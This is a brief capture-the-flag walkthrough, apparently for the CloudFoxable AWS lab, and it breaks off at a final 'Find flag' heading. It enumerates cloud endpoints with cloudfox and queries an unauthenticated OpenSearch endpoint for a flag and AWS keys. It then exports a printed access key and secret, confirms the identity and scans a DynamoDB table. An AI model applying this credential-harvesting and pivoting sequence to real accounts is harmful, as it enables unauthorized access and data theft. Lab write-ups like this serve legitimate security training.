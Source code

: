 #### Run cloudfox endpoints
❯ cloudfox aws -p cloudfoxable_start endpoints -v2

#### Browse to opensearch endpoint (exposed to only your IP with no authentication)
https://search-example-x7fmapx6yfr23auv6in2h3u7ge.us-west-2.es.amazonaws.com/

#### find flag 
https://search-example-x7fmapx6yfr23auv6in2h3u7ge.us-west-2.es.amazonaws.com/_search?pretty=true&q=flag
or
https://search-example-x7fmapx6yfr23auv6in2h3u7ge.us-west-2.es.amazonaws.com/_search?pretty=true&size=100

#### find key
https://search-example-x7fmapx6yfr23auv6in2h3u7ge.us-west-2.es.amazonaws.com/_search?pretty=true&q=key_id
or
https://search-example-x7fmapx6yfr23auv6in2h3u7ge.us-west-2.es.amazonaws.com/_search?pretty=true&size=100

### set found keys and call get-caller-identity

❯ export AWS_ACCESS_KEY_ID=AKIAQXHJKLZKKBSKZR5T
❯ export AWS_SECRET_ACCESS_KEY=harXmptWK/vdcmroXgDvN++7rCK3HfleU76hGY0o
❯ aws sts get-caller-identity
{
    "UserId": "AIDAQXHJKLZKOOMTQT72R",
    "Account": "049881439828",
    "Arn": "arn:aws:iam::049881439828:user/Xavi"
}

#### Find permisisons for Xavi

❯ cloudfox aws -p cloudfoxable_start permissions -v2 --principal Xavi


### Read the DB you hvae access to

aws --region us-west-2 dynamodb scan --table-name example-table

### Find flag
